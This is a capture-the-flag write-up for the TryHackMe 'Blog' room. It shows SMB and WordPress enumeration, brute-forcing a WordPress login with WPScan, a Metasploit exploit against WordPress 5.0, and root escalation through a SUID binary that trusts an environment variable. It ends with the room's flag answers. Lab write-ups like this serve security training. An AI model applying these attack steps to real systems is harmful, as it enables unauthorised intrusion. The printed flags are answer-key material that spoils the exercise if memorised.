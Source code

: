 
>Room URL: https://tryhackme.com/r/room/blog
>IP Address: 10.10.36.56

# Enumeration

Run a port scanning and found out there are 4 ports opened.
- ==22, 80, 139, 445==

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/nmap-scan.png]]

Perform SMB enumeration since the port is opened with `smbclient` and found out that it has sharename called `BillySMB`.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/smb-enum.png]]

So login with the sharename and there are 3 files inside it. Use `get/mget` to download those files. However, when using `steghide` to crack those file and it showing rabbit hole.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/smb-access.png]]

Now, try do navigate to http://10.10.36.56/ will show that the webpage is using WordPress CMS. So, try to use `WPScan` for the enumeration.
- 2 username is found: ==kwheel==, ==bjoel==

```bash
└─$ wpscan --url http://blog.thm -e 
```

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/wp-username.png]]

We can also navigate to http://blog.thm/wp-json/wp/v2/users 

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/web-username.png]]

# Brute Force

With the 2 username we can perform a brute force with `WPScan` again. `kwheel`'s password is found.
- Username: ==kwheel==
- Password: ==cutiepie1==

```bash
└─$ wpscan --url http://blog.thm -u kwheel, bjoel -P /usr/share/wordlists/rockyou.txt  
```

Login into WordPress with `kwheel` credentials and play around with the webpage. Based on the image below, found out that the WordPress version is 5.0.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/wp-dashboard.png]]

# Exploitation

Run `msfconsole` and search for exploit related to WordPress version 5.0 and run it to gain the meterpreter session.

```bash
msf6 > search wordpress 5.0
msf6 > use 0
msf6 > set RHOSTS 10.10.36.56
msf6 > set USERNAME kwheel
msf6 > set PASSWORD cutiepie1
msf6 > exploit
```

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/msfconsole.png]]

Now find for the user.txt file but it not the flag.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/shell.png]]

# Privileges Escalation

Lets start with a common technique for PrivEsc by looking got the `SUID` bit set.

```bash
# 1st method
$find / -perm -4000 2>/dev/null

#2nd method
$find / -perm -u=2 -type f 2>/dev/null
```

We'll found `/usr/sbin/checker` with SUID being set but it shows that we are not admin when try to launch it. So, what we can do it to investigate the binary the binary in more details by using `ltrace / strace`.

Based on the `ltrace` output, it appears that the only check the application does is to check an environmental variable called admin for a value, lets test this theory by adding a value to the admin environmental variable `export admin=1`.
- Check for `id` and we able to gain the root access.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/suid-check.png]]

Search for the `user.txt`.

```bash
find / -type f -name user.txt

cat /media/usb/user.txt
```

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/user.txt.png]]

Search for the `root.txt`.

```bash
find / -type f -name root.txt

cat /root/root.txt
```

![[Writeups/TryHackMe/assets/img/THM-Writeups/Blog/root.txt.png]]

# Answer

1. root.txt
>9a0b2b618bef9bfa7ac28c1353d9f318**

2. user.txt
>c8421899aae571f7af486492b71a8ab7

3. Where was user.txt found?
>/media/usb

4. What CMS was Billy using?
>Wordpress

5. What version of the above CMS was being used?
>5.0